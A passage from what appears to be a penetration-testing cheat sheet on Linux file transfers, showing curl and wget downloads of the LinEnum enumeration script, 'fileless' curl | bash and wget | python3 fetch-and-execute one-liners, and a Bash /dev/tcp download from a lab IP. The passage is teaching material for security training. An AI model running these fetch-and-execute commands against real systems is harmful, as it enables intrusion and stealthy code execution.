 #### Using curl

```bash
# Basic file download
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

# Silent download (no progress meter)
curl -s -o /tmp/file.txt https://example.com/file.txt

# Follow redirects
curl -L -o /tmp/file.txt https://example.com/file.txt
```

### Fileless Attacks

Linux pipes allow executing downloaded content directly without saving to disk.

#### Direct Execution with curl

```bash
# Download and execute script
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash

# Download and pipe to interpreter
curl https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

#### Direct Execution with wget

```bash
# Download and execute
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

### Bash /dev/tcp Downloads

When common utilities are unavailable, Bash's built-in networking capabilities can be used.

```bash
# Connect to remote server
exec 3<>/dev/tcp/10.10.10.32/80

# Send HTTP GET request
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

# Read and process response
cat <&3 | tail -n +10 > LinEnum.sh 
# (tail -n +10 skips HTTP headers)
```

### SSH/SCP Transfers

Secure Copy Protocol (SCP) provides encrypted file transfers using SSH.
